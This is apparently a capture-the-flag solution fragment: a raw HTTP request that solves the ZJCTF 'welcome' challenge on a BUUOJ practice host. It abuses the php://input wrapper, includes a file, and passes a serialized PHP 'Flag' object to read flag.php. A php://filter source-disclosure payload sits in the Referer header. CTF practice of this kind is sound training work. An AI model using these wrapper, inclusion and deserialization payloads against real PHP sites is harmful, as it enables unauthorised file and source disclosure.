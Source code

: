 ```http
POST /?text=php://input&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} HTTP/1.1
Host: 2f0f5908-ccea-41ad-9d55-cd848ecede29.node4.buuoj.cn
Content-Length: 20
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://2f0f5908-ccea-41ad-9d55-cd848ecede29.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://2f0f5908-ccea-41ad-9d55-cd848ecede29.node4.buuoj.cn/?text=php://input&file=php://filter/read=conver.base64-encode/resource=useless.php&password=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

welcome to the zjctf
```